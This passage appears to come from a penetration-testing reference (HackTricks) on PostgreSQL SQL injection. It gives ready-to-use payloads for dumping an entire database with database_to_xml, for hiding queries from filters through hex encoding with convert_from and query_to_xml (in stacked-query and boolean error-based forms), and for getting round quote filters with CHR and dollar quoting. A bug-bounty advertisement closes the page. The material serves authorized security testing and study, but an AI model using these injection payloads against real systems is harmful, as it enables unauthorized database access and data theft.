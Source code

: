 **database\_to\_xml**

This function will dump the whole database in XML format in just 1 row (be careful if the database is very big as you may DoS it or even your own client):

```sql
SELECT database_to_xml(true,true,'');
```

### Strings in Hex

If you can run **queries** passing them **inside a string** (for example using the **`query_to_xml`** function). **You can use the convert\_from to pass the string as hex and bypass filters this way:**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Forbidden quotes

If cannot use quotes for your payload you could bypass this with `CHR` for basic clauses (_character concatenation only works for basic queries such as SELECT, INSERT, DELETE, etc. It does not work for all SQL statements_):

```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```

Or with `$`. This queries return the same results:

```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```

<img src="../../../.gitbook/assets/i3.png" alt="" data-size="original">\
**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!
